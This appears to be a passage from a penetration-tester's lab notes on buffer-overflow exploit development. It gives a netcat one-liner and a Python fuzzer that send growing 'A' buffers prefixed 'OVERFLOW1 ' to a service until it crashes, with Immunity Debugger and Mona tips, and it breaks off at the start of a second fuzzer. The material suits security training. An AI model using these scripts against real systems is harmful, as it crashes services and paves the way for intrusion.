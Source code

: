 {% tab title="Fuzzer" %}
<pre class="language-python" data-overflow="wrap" data-full-width="true"><code class="lang-python"># Easy way to test first
python -c 'print "A" * 800 + "\x00"' | nc $box 1985
# DO NOT TRY A HUGE value as fuzzer or it might not work

<strong># Check options in case bof needs a prefix or a previous action to be able to trigger it.
</strong>
# --------USE PYTHON3 TO RUN IT
# We use Immunity Debbuger (run as admin) and Mona script.
# We open the .exe with Immunity Debugger and run it. We create our fuzzing script:

<strong># Remember to change to binary mode in ftp before using get otherwise you will have issues running the exe
</strong>

#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.152.83"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  
# -----------------------------------  
# ANOTHER FUZZER
#!/usr/bin/python
import socket
import time
import sys
